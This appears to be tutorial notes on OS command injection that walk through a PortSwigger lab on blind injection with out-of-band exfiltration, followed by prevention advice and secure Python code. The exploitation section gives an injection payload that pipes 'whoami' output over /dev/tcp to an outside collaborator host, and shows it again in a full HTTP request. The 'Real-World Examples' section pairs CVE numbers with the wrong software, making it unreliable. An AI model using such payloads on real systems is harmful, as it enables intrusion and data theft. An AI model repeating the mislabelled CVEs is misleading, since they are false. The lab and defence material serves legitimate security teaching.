

## OS Command Injection Overview

### What is OS Command Injection?

OS Command Injection is a type of security vulnerability that occurs when an application executes operating system commands using input provided by an attacker. This can lead to unauthorized access, data theft, or even complete control over the system. The vulnerability arises when user input is not properly sanitized or validated before being passed to a system command.

### Why Does OS Command Injection Matter?

OS Command Injection is significant because it allows attackers to execute arbitrary commands on the server. This can result in severe consequences such as:

- **Data Theft**: Attackers can read sensitive files and steal confidential information.
- **System Control**: Attackers can gain control over the server and perform actions like installing malware or creating backdoors.
- **Denial of Service**: Attackers can disrupt services by executing commands that consume resources.

### How Does OS Command Injection Work?

When an application constructs a command string using untrusted input, it can be manipulated to inject additional commands. For example, consider the following Python code snippet:

```python
import subprocess

def run_command(user_input):
    command = f"echo {user_input}"
    subprocess.run(command, shell=True)
```

If `user_input` is controlled by an attacker, they could inject additional commands. For instance, setting `user_input` to `"hello; ls"` would result in the following command execution:

```bash
echo hello; ls
```

This would first print "hello" and then list the contents of the directory.

### Real-World Examples

#### CVE-2021-21972: Apache Struts

In 2021, a critical vulnerability was discovered in Apache Struts, which allowed remote code execution through OS Command Injection. The vulnerability was exploited in the wild, leading to widespread attacks.

#### CVE-2022-22965: Log4j

The infamous Log4j vulnerability (CVE-2022-22965) allowed attackers to inject malicious JNDI (Java Naming and Directory Interface) lookups, which could be leveraged to execute arbitrary commands on the server.

### Out-of-Band Data Exfiltration

Out-of-band data exfiltration is a technique used to bypass local network restrictions and exfiltrate data to an external server. This is particularly useful in scenarios where direct communication with external systems is blocked.

### Lab Setup: Blind OS Command Injection with Out-of-Band Data Exfiltration

In this lab, we will demonstrate how to exploit a blind OS command injection vulnerability and exfiltrate data using out-of-band techniques. The lab environment is set up using the PortSwigger Web Security Academy, which provides a controlled environment for learning and testing.

### Setting Up the Environment

To begin, ensure that you have Burp Suite Professional installed. This is necessary because the default public server for out-of-band data exfiltration (`burp-collaborator.net`) is only available in the professional edition.

1. **Start Burp Suite**:
   - Launch Burp Suite Professional.
   - Configure the Foxy Proxy extension to send requests to Burp Suite.

2. **Access the Lab**:
   - Navigate to the lab environment provided by PortSwigger.
   - Ensure that the Foxy Proxy extension is configured correctly to intercept traffic.

### Identifying the Vulnerability

The lab environment includes a feedback form where users can submit messages. The goal is to identify if the message field is vulnerable to OS Command Injection.

1. **Submit a Test Message**:
   - Fill out the feedback form with the following details:
     - Email: `test@test.com`
     - Subject: `test`
     - Message: `test`
   - Click on "Submit Feedback".

2. **Intercept the Request**:
   - In Burp Suite, set the intercept mode to "Off".
   - Go to the HTTP History tab to view the intercepted requests.

### Exploiting the Vulnerability

To exploit the vulnerability, we need to inject a command that will exfiltrate data to an external server.

1. **Inject the Command**:
   - Modify the message field to include a command that will be executed on the server. For example:
     ```plaintext
     test; whoami > /dev/tcp/burp-collaborator.net/80
     ```
   - This command will append the output of `whoami` to a TCP connection to `burp-collaborator.net`.

2. **Submit the Modified Message**:
   - Submit the modified feedback form.

3. **Verify the Exfiltration**:
   - Check the Burp Collaborator server to confirm that the data has been exfiltrated.

### Full Example

Here is a complete example of the HTTP request and response:

```http
POST /feedback/submit HTTP/1.1
Host: vulnerable-app.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

email=test%40test.com&subject=test&message=test%3B+whoami+%3E+/dev/tcp/burp-collaborator.net/80
```

Response:

```http
HTTP/1.1 200 OK
Date: Mon, 01 Aug 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 17
Content-Type: text/html

Feedback submitted successfully.
```

### Mermaid Diagram: Attack Chain



### Common Pitfalls

1. **Improper Input Validation**: Failing to validate user input can lead to successful exploitation.
2. **Use of Shell Commands**: Using shell commands with user input increases the risk of injection.
3. **Out-of-Band Restrictions**: Not considering out-of-band restrictions can limit the effectiveness of exfiltration techniques.

### How to Prevent / Defend Against OS Command Injection

#### Detection

- **Static Analysis Tools**: Use tools like SonarQube, Fortify, or Veracode to scan for potential vulnerabilities.
- **Dynamic Analysis Tools**: Use tools like Burp Suite, ZAP, or OWASP Dependency-Check to detect runtime vulnerabilities.

#### Prevention

- **Input Validation**: Validate and sanitize all user inputs before passing them to system commands.
- **Whitelist Input**: Use whitelisting to restrict input to a predefined set of acceptable values.
- **Use Safe APIs**: Use safe APIs that do not rely on shell commands, such as `subprocess.run()` with `shell=False`.

#### Secure Coding Fixes

Vulnerable Code:

```python
import subprocess

def run_command(user_input):
    command = f"echo {user_input}"
    subprocess.run(command, shell=True)
```

Secure Code:

```python
import subprocess

def run_command(user_input):
    command = ["echo", user_input]
    subprocess.run(command, check=True)
```

#### Configuration Hardening

- **Disable Unnecessary Services**: Disable unnecessary services and ports to reduce the attack surface.
- **Firewall Rules**: Implement strict firewall rules to block unauthorized outbound connections.

### Conclusion

OS Command Injection is a serious vulnerability that can lead to severe consequences. By understanding the mechanics of the attack, identifying the vulnerability, and implementing proper defenses, you can protect your applications from such attacks.

### Practice Labs

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs to practice OS Command Injection and other web security vulnerabilities.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing various security vulnerabilities.
- **DVWA (Damn Vulnerable Web Application)**: Another popular web application for practicing security vulnerabilities.

By completing these labs, you can gain practical experience in identifying and defending against OS Command Injection vulnerabilities.

---
<!-- nav -->
[[Web Security (PortSwigger)/10-OS Command Injection/06-Lab 5 Blind OS command injection with out of band data exfiltration/01-Introduction to OS Command Injection|Introduction to OS Command Injection]] | [[Web Security (PortSwigger)/10-OS Command Injection/06-Lab 5 Blind OS command injection with out of band data exfiltration/00-Overview|Overview]] | [[03-Common Mistakes and Pitfalls|Common Mistakes and Pitfalls]]
